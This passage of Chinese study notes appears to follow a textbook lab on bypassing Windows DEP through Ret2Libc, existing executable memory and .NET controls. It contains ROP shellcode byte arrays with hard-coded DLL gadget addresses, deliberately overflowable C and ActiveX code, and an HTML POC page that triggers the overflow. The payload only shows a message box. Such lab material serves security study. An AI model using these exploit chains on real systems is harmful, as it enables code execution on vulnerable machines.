    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x00\x00\x03\x00"// 这里是下面memcpy执行返回前esp所执向，所以安排可执行地址00030000,也可以根据实际shellcode位置进行更精确定位
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    "\x00\x00\x03\x00"//???????
    "\x00\x00\x03\x00"//???????
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行进入 0x00030000 内存空间执行后暂停，观察内存状态。

如图 12.3.30 所示，memcpy 函数复制过来的不只是弹出对话框的机器码，还包含着弹出对话框机器码前面的一些指令和参数，而这些东西会破坏程序的执行，所以我们要想办法搞定它们。


首先是对 ESI 和 EDI 指向内存的操作，在 0x00030004 和 x00030005 分别对 ESI 和 EDI 指向的内存有读取操作，我们需要保证 ESI 和 EDI 指向合法的位置。ESI 和 EDI 是在 memcpy 函数返回前被 POP 进去的（如图 12.3.28 所示），这也是为什么在 shellcode 中 memcpy 函数切
入点下边我们没有使用 0x90 填充而使用两个 0x00030000 填充。
接下来是 0x00030006 的 XCHG EAX,EBP 指令，这条指令直接破坏了 ESP，而在弹出对话框的机器码中有 PUSH 操作，所以 ESP 要修复，故我们在弹出对话框的机器码前边使用 0x94填充，在 0x00030013 处来修复这个问题。

最后是 0x0003000F 的对[EAX]操作，如果 0x00030010 处使用 0x90 填充，结果就是对[EAX+0x909094FC]操作，这会引发异常，所以我们使用 0x00 填充 0x00030010，避免出现异常。现在大家应该明白 shellcode 中那些特殊的填充了吧。

>题外话：实际上我们有种更简单的方法来处理掉这些垃圾指令，从图 12.3.30 中大家可以看到我们弹出对话框的机器码起始地址为 0x00030014，我们在可以让 memcpy 函数返回时直接跳转到这个位置，跃过前边的垃圾指令。在这我们之所以使用复杂的方法，是为了给大家介绍在一些特殊情况下 shellcode 的特殊处理思路。


## 利用可执行内存挑战DEP

有时，在进程的内存空间中会存在一段可读可写可执行的内存。使用OllyDbg等调试工具的内存窗口的“Access”列可以看到如“RWE”，即表示可读可写可执行。

如果我们能够将 shellcode 复制到这段内存中，并劫持程序流程，我们的 shellcode 就有执行的机会。

这种方法的实现难度要比前面三种方法小的多，不需要费尽心思地设置内存属性、申请可执行的内存空间……这里所需要的是一点点运气：假使被攻击的程序内存空间中存在这样一个可执行的数据区域，就可以直接通过 memcpy 函数将 shellcode 复制到这段内存区域中执行。我们通过以下代码来分析这种绕过 DEP 的方法。

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    //"……"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn
    "\x0B\x1A\xBF\x7C"//pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP retn 4
    "\x5F\x78\xA6\x7C"//pop retn
    "\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
    "\x00\x00\x14\x00"//可执行内存空间地址，复制用
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址.eax 当前应为shellcode起始位置（自test函数调用后未变），所以一旦jmp eax，则跳转回此段shellcode最前端，这会触发DEP异常。所以在修正EBP之前要修正eax为可执行内存地址。
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    //"……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    chartt[176];
    memcpy(tt,shellcode,450);
}
int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
} 
```

对实验思路和代码简要解释如下:

- 为了更直观的反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- 函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。
- 覆盖掉函数返回地址后，通过 Ret2Libc 技术，利用 memcpy 函数将 shellcode 复制到内存中的可读可写可执行区域。
- 最后在这段可执行的内存空间中执行 shellcode，实现 DEP 的绕过。


实验环境如下:
- 操作系统 Windows 2003 SP2
- DEP 状态 Optout
- 编译器 VC++ 6.0
- 编译选项 禁用优化选项
- build 版本 release 版本

通过下图可以看到，在 0x00140000 的位置存在一段可读可写可执行的内存，长度为0x1000，足够放置我们的 shellcode。本次实验的核心就是利用 memcpy 函数完成 shellcode 的复制，通过上个实验的介绍大家对如何布置 memcpy 所需要的参数应该很熟悉了，现在让我们再来布置一次。

- 最开始是复制的目的内存起始地址，本次实验时我们使用 0x00140000。
- 接下来是源内存起始地址，我们先用 PUSH ESP JMP EAX 指令的地址来填充，待执行完 PUSH ESP 操作后这个位置会覆盖为当前 ESP 的值，以实现源内存起始地址的动态获取。
- 最后是复制的字符串长度，只要能将关键的指令代码都复制过去即可，本次实验我们使用 0xFF。
- 再加上 JMP EAX 中 EAX 值的设置和 EBP 的修正，我们的shellcode 如下所示。


细心的读者会发现虽然都是利用 memcpy 函数复制 shellcode，但是本次实验的 shellcode 布局和上一个实验中不大一样，这个问题稍后解释。我们先来编译程序，编译好程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，待程序中断后单步执行程序，在程序进入 0x00140000 执行后暂停程序，观察一下周围的情况。



如图 12.4.2，现在我们已经成功转入 0x00140000 执行了，大家会发现这次复制依然带来了很多垃圾代码，上个实验中为了向大家介绍一些特殊情况下的 shellcode 布局技巧，对垃圾代码做了修补操作。这次我们使用一种更为简单的处理方法：直接无视前边这一堆垃圾代码，在memcpy 复制结束后直接转到弹出对话框的机器码中执行，跃过前边的垃圾代码。

从图 12.4.2 中可以看到弹出对话框的机器码起始地址为 0x00140008，所以我们就用 0x00140008 代替 0x00140000 作为 memcpy 复制结束后的转入地址，这样就可以越过前面那堆垃圾代码，直接运行核心机器码了。我们 shellcode 的最终布局如图 12.4.3 所示。


重新编译程序后直接运行，大家就可以看到弹出的对话框了.

> 个人实验结果：没有能够顺利执行，原因是0x00140000为不可执行内存。从ollydbg观察此内存访问属性为RWE，使用xdbg32查看，0x00140000仅可读写。所以执行时会引发nt异常。

## 利用.NET 挑战 DEP

微软在IE6及后续版本的浏览器中允许使用.NET控件来实现一些功能，这些功能最终会运行在浏览器进程中的沙盒里。。为了防止这些.NET 控件做出什么出格的事，微软
对.NET 控件进行了一系列校验，但是.NET 控件本身不做出格的事，并不代表不能利用它来做出格的事。就像前面介绍的一些绕过 DEP 的方法，那些 DLL 和指令本身都没有问题，但是经过我们的组合后，就变成了血刃 DEP 的利剑。

实际上.NET 的文件具有和与 PE 文件一样的结构，也就是说它也具有.text 等段，这些段也会被映射到内存中，也会具备一定的可执行属性。大家应该想到如何利用这一点了，将 shellcode 放到.NET 中具有可执行属性的段中，然后让程序转入这个区域执行，就可以执行 shellcode 了。

演示如何利用.NET 控件绕过 DEP 需要三方面的支持：
- 具有溢出漏洞的 ActiveX 控件。
- 包含有 shellcode 的.NET 控件。
- 可以触发 ActiveX 控件中溢出漏洞的 POC 页面。

在“利用 Adobe Flash Player ActiveX 控件绕过 SafeSEH”一节中我们介绍了如何用 Visual Studio 2 008 建立一个基于 MFC 的 ActiveX 控件，本次实验中具有溢出漏洞的 ActiveX 控件依然使用 Visual Studio 2008 建立，控件名称为 VulnerAX。建立的过程与前面介绍的完全一致，只是本次实验我们攻击的是函数返回地址，而不是 S.E.H。

本次使用的漏洞代码依然放在 test 函数中。代码很简单，在函数里边申请 100 个字节的空间，然后向这个空间里复制字符串，当复制的字符串超度超过 100 个字节时就会发生溢出，具体代码如下所示。

```c
void CVulnerAXCtrl::test(LPCTSTR str) 
{
    //AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa");//定位该函数的标记
    char dest[100];
    sprintf(dest,"%s",str);
} 
```

接下来我们就要编译生成这个 ActiveX 控件了，因为本次我们攻击的是函数返回地址，所以要禁用程序的 GS 编译选项，其他编译选项与“利用 Adobe Flash Player ActiveX 控件绕过SafeSEH”一节中的 ActiveX 空间一致，具体编译选项如下表所示。
- 操作系统 Windows XP SP3
- 编译器 Visual Studio 2008
- 优化 禁用编译优化
- GS 选项 GS 关闭
- MFC 在静态库中使用 MFC
- 字符集 使用 Unicode 字符集
- build 版本 release 版本 

编译好控件后，我们在实验机器上注册这个 ActiveX 控件。在命令行下输入：```Regsvr32 路径\ VulnerAX.ocx``` 即可。注册之后我们可以在 Web 页面中通过如下代码来调用该控件中的 test 函数。
```HTML
<object classid="clsid:39F64D5B-74E8-482F-95F4-918E54B1B2C8" id="test"> </object>
<script>
    test.test("testest");
</script> 
```

其中 classid 的值可以在 VulnerAx.idl 文件中的“Class information for CVulnerAXCtrl”下边查看到，如图 12.5.1 所示，本次实验中 classid 值为 39F64D5B-74E8-482F-95F4-918E54B1B2C8。


然后我们需要在 C#下边建立一个 DLL 解决方案，如下图所示。


建立好之后 .NET 控件工程的，我们只需要将 shellcode 以变量形式放到 dll 中即可，需要注意的是浏览器加载这个 DLL 之后使用是 Unicode 编码，所以我们的 shellcode 也要以 Unicode 编码的形式存放，代码如下所示。

接下来要编译生成这个 .NET 控件，编译选项的设置上还有几个需要注意的地方，如下表所示：
- 操作系统 Windows XP SP3
- 编译器 Visual Studio 2008
- 基址 0x24240000
- build 版本：使用 Debug 版本 （Realse 版的优化选项会影响 shellcode ）。

.NET 控件的基址可以通过“Project→DEP_NETDLL Properties→Build→Advanced”进行设置，如下图所示。


编译好 DLL 之后，我们需要将这个 DLL 和溢出 ActiveX 控件的 POC 页面放到同一目录下，并通过如下代码调用。

```<object classID="DEP_NETDLL.dll#DEP_NETDLL.Shellcode"></object> ```

Shellcode 放置好后，我们来设置 POC 页面，并将 POC 页面与.NET 控件放到一台 Web 服务器上，在实验机上访问这个 POC 页面，以触发 ActiveX 中的溢出漏洞，通过.NET 控件绕过DEP。

POC 页面的代码如下所示。

```html
<html>
<head>
<title>Test </title>

</head>
<body>
    <object classID="DEP_NETDLL.dll#DEP_NETDLL.Shellcode"></object> 
    <object classid="479E2026-87D1-4DDF-B417-6BA667AA9B3D" id="VulnerAX"> </object>
    <script>
        var s = "\u9090";
        while (s.length < 54) {
            s += "\u9090";
        }
        s+="\u24E2\u2424";
        VulnerAX.test(s);
    </script>
</body>

</html>

```

对代码和思路简要解释如下。
- 为了更直观地反映绕过 DEP 的过程，本次实验所攻击的 ActiveX 控件不启用 GS（项目属性C++——代码生成处设置buff safe选项）。
- 通过 Web 页面同时加载具有溢出漏洞的 ActiveX 控件和包含shellcode 的 .NET 控件。
- 由于 shellcode 位于 .NET 的 .text 段中，因此 shellcode 所在区域具有可执行权限。
- ActiveX 控件中的 test 函数存在一个典型的溢出，通过向 test 函数传递超长字符串可以造成溢出，进而覆盖函数返回地址。
- 编译 .NET 控件的时候，我们设置了 DLL 的基址，所以我们可以将函数的返回地址覆盖为 .NET 控件中的 shellcode 起始地址，进而转入 shellcode 执行。
- 实验中使用的是 Unicode 编码，在计算填充长度时要考虑 Unicode 与 Ascii 编码之间的长度差问题。

实验环境如下表所示。
- 操作系统 Windows XP SP3
- DEP 状态 Optout
- 浏览器 Internet Explorer 7

用 IE 访问我们设置好的 POC 页面，如果浏览器提示 ActiveX 控件被拦截等信息请自行设置浏览器安全权限，当浏览器弹出图 12.5.4 中所示的对话框时用 OllyDbg 附加 IE 的进程，附加好后按一下 F9 键让程序继续运行。


然后我们转到 DEP_NETDLL.dll 的内存空间中查找 shellcode 的具体位置，大家可以通过OllyDbg 的可执行模块窗口找到 DEP_NETDLL.dll 模块双击进入该内存空间。由于我们在shellcode 开始部分布置了一串 0x90，所以我们很容易地就可以发现 shellcode 起始地址位于 0x242424DF，如图 12.5.5 所示。


找到 shellcode 的起始地址后，我们来计算一下填充字符的长度。首先我们转到VulnerAX.ocx 的内存空间中，然后通过查找参考字符串的方法，找到“aaaa”所在位置，这个位置就是 test 函数中的 printf(“aaaa”)的位置，我们在设置好断点，单击浏览器弹出对话框中的“是”按钮，程序会中断在刚才我们设置断点的位置。
单步运行程序到 RETN 4 的位置，然后观察堆栈。如图 12.5.6 所示，可以发现我们的填充字符从 0x01EF534 的位置开始，函数返回地址存放位置为 0x01EFF5A0，所以填充 108（0x6C）个字节就刚好覆盖到返回的返回地址，然后后面再跟上 shellcode 的起始地址就可以转入shellcode 执行了。


JavaScript 实现代码如下所示，需要的注意的是由于在 JavaScript 中使用的是 Unicode 编码，而刚才计算填充长度是以 ASCII 码长度计算的，中间有一个 2 倍的转换。

分析结束，现在可以关掉 OllyDbg 了，用 IE 重新打开 POC 页面，让我们来看看是不是真的绕过 DEP 了，不出意外的话大家就可以看到“failwest”的对话框弹了出来。如图 12.5.7 所示。


## 利用 Java applet 挑战 DEP
略

